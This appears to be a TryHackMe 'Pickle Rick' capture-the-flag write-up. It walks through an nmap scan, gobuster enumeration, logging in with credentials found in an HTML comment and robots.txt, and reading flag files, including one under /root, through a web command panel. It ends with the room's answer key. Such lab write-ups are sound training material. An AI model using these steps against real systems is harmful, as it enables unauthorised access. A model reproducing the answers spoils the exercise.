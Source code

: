 
# 🥒 TryHackMe CTF: Pickle Rick

---

## 📌 Room Name
**Pickle Rick**  
🔗 [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

---

## 💻 Target IP
```

10.10.211.109

````

---

## 🛠️ Step 1: Connect to VPN

Connected to TryHackMe network using OpenVPN.

```bash
sudo openvpn yourconfig.ovpn
````

---

## 🔍 Step 2: Scan with Nmap

```bash
nmap -sC -sV -oN nmap.txt 10.10.211.109
```

### Open Ports:

```
22/tcp open  ssh
80/tcp open  http
```

---

## 🌐 Step 3: Explore the Website

Visited `http://10.10.211.109` and found:

* Hidden **HTML comment**:

  ```
  Username: R1ckRul3s
  ```
* Found `/robots.txt` with:

  ```
  Wubbalubbadubdub
  ```

---

## 🔍 Step 4: Find Hidden Pages

Used Gobuster/ffuf to discover `/command` page.

```bash
gobuster dir -u http://10.10.211.109/ -w /usr/share/wordlists/dirb/common.txt
```

---

## 🔐 Step 5: Log into Command Panel

URL:

```
http://10.10.211.109/command
```

* Username: `R1ckRul3s`
* Password: `Wubbalubbadubdub`

A command panel appears, allowing basic Linux commands.

---

## 🧪 Step 6: Find the Ingredients

Used `more` to bypass disabled commands.

### ✅ First Ingredient

```bash
more Sup3rS3cretPickl3Ingred.txt
```

**Answer:** `mr. meeseek hair`

### ✅ Second Ingredient

```bash
more /home/rick/second_ingredient.txt
```

**Answer:** `1 jerry tear`

### ✅ Final Ingredient

```bash
more /root/third_ingredient.txt
```

**Answer:** `fleeb juice`

---

## ✅ Final Answers

| Question                           | Answer             |
| ---------------------------------- | ------------------ |
| First ingredient Rick needs        | `mr. meeseek hair` |
| Second ingredient in Rick’s potion | `1 jerry tear`     |
| Last and final ingredient          | `fleeb juice`      |

---

## 🏁 Completion Proof

> ![Successfully Completed the Room](images/completed.png)

---

## 📝 Notes

* Learned basic web enumeration
* Used credential hints from HTML and robots.txt
* Navigated a restricted command shell interface

---

## ✅ Done!

CTF Room fully completed and all answers submitted.

```
